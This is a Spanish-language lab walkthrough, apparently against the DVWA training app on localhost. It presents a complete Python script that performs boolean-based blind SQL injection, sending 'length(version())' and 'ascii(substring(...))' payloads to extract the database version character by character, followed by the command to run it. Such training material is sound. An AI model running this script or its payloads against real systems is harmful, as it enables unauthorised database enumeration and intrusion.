 En este apartado, vamos a realizar la ejecución de un script en python, para poder averiguar la versión de la base de datos que está ejecutando el servidor. Esto nos permite buscar vulnerabilidades en internet para poder realizar la explotación de la misma. Para ello el primer paso es crear el código en python:

'''
import requests
from requests.structures import CaseInsensitiveDict

headers = CaseInsensitiveDict()
headers["Cookie"] = "security=medium; PHPSESSID=q1al1s91f2l75phkc846d636e6"
headers["Content-Type"] = "application/x-www-form-urlencoded"
url = 'http://localhost/vulnerabilities/sqli_blind/'

for i in range(100):
    parameters = f"id=1+and+length(version())={i}&Submit=Submit"
    # parameters = {"id": f'1+and+length(version())={i}', "Submit": "Submit"}
    r = requests.post(url, headers=headers, data=parameters)
    if 'User ID exists in the database' in r.text:
        print(f'length = {i}')
        length = i
        break
j = 1
for i in range(1, length+1):
    for s in range(30, 126):
        parameters = f"id=1+and+ascii(substring(version(),{i},{j}))={s}&Submit=Submit"
        r = requests.post(url, headers=headers, data=parameters)
        if 'User ID exists in the database' in r.text:
            print(chr(s), end='')
            break
        j += 1
'''

Una vez creado el archivo, podemos proceder a su ejecución con el siguiente comando:

    python3 sqlVersion.py

Y como podemos observar, nos ha extraido la versión junto con el nombre de la base de datos que utiliza:

![Imagen](./images/dbVersion.png)


